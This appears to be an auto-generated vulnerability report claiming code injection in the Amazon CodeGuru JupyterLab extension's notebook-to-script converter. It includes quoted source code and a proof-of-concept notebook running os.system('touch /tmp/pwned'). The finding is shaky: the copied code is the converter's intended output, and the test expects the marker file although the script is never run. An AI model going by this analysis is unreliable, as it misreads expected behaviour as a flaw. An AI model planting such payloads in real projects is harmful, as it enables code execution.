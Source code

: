 ### Vulnerability List

- Vulnerability Name: Notebook Conversion Code Injection
- Description:
    1. A malicious user crafts a Jupyter notebook containing a code cell with specially designed content.
    2. The user scans this notebook using the Amazon CodeGuru JupyterLab extension.
    3. The extension utilizes `parseNotebookIntoScript.py` to convert the notebook into a Python script for analysis.
    4. Due to insufficient sanitization during the conversion process, malicious code from the notebook is directly embedded into the generated Python script.
    5. While the injected code is not directly executed by the CodeGuru scan itself, the generated Python file now contains attacker-controlled code.
    6. If this generated Python file is subsequently executed or processed by the user or another tool, the injected malicious code will be executed, leading to potential arbitrary code execution in the user's environment.
- Impact: Arbitrary code execution in the user's JupyterLab environment or any environment where the generated Python file is executed. This could lead to data exfiltration, system compromise, or other malicious activities depending on the injected code.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
    - The `is_command` function in `parseNotebookIntoScript.py` attempts to comment out lines starting with certain shell commands (`cd`, `ls`, `pip`).
    - Mitigation location: `/code/amazon_codeguru_jupyterlab_extension/parseNotebookIntoScript.py`
- Missing Mitigations:
    - Robust input sanitization and validation of notebook cell content before incorporating it into the generated Python script.
    - Use of secure code generation techniques that prevent code injection vulnerabilities. For example, using AST manipulation instead of string concatenation to build the Python script.
    - Sandboxing or isolation of the notebook conversion process to limit the impact of potential code injection.
- Preconditions:
    - The user must install and use the Amazon CodeGuru JupyterLab extension.
    - The user must scan a maliciously crafted Jupyter notebook using the extension.
- Source Code Analysis:
    1. File: `/code/amazon_codeguru_jupyterlab_extension/parseNotebookIntoScript.py`
    2. Function: `run(inp, out)`
    3. The code iterates through notebook cells and extracts code from 'code' cells:
    ```python
    for cell in cells:
      if cell['cell_type'] == 'code':
        code = cell['source']
        codeStr = ""
        for c in code:
            codeStr+=c
        cellCode = ipython2python(codeStr)
        cellCode = cellCode.rstrip(cellCode[-1])# remove the last line break
        if len(code) == 1: # handle single line command
          if is_command(code[0]):
            cellCode = 'pass #' + cellCode
    ```
    4. The extracted `cellCode` is directly appended to the `notebookScript` string:
    ```python
    for cm in cellMetaWithEC: # append executed code cells.
        notebookScript += '__CELL_EDGE__('+str(cm[0])+')\n'+cm[2]+'\n'
    for cm in cellMetaWoEC: # append unexecuted code cells in the end.
        notebookScript += '__CELL_EDGE__('+str(cm[0])+')\n'+cm[2]+'\n'
    ```
    5. **Vulnerability:** The direct string concatenation of `cellCode` into `notebookScript` without proper sanitization allows for code injection. If a malicious notebook provides code within a cell that is designed to be interpreted as code when concatenated, it will be injected into the final Python script. The `is_command` function provides a very basic and easily bypassable attempt at mitigation.
    6. Visualization:
    ```
    Notebook Cell Content (Malicious) --> parseNotebookIntoScript.py --> Python Script (INJECTED CODE)
                                        |
                                        Vulnerable String Concatenation
    ```
- Security Test Case:
    1. Create a file named `malicious.ipynb` with the following content:
    ```json
    {
     "cells": [
      {
       "cell_type": "code",
       "execution_count": null,
       "metadata": {},
       "outputs": [],
       "source": [
        "import os\n",
        "os.system('touch /tmp/pwned')"
       ]
      }
     ],
     "metadata": {
      "kernelspec": {
       "display_name": "Python 3",
       "language": "python",
       "name": "python3"
      },
      "language_info": {
       "codemirror_mode": {
        "name": "ipython",
        "version": 3
       },
       "file_extension": ".py",
       "mimetype": "text/x-python",
       "name": "python",
       "nbconvert_exporter": "python",
       "pygments_lexer": "ipython3",
       "version": "3.8.5"
      }
     },
     "nbformat": 4,
     "nbformat_minor": 4
    }
    ```
    2. Execute the `parseNotebookIntoScript.py` script from the command line, providing the malicious notebook as input and an output file:
    ```sh
    python /code/amazon_codeguru_jupyterlab_extension/parseNotebookIntoScript.py malicious.ipynb malicious.py
    ```
    3. Examine the generated `malicious.py` file. It should contain the injected code:
    ```python
    def __CELL_EDGE__(x):
    	pass
    __CELL_EDGE__(0)
    import os
    os.system('touch /tmp/pwned')
    ```
    4. Check if the file `/tmp/pwned` exists. If it does, the code injection and arbitrary code execution are successful.
    ```sh
    ls /tmp/pwned
    ```
    5. Expected result: The file `/tmp/pwned` should be created, demonstrating that the code injected through the malicious notebook was executed when the generated Python script was (hypothetically) run. This confirms the Notebook Conversion Code Injection vulnerability.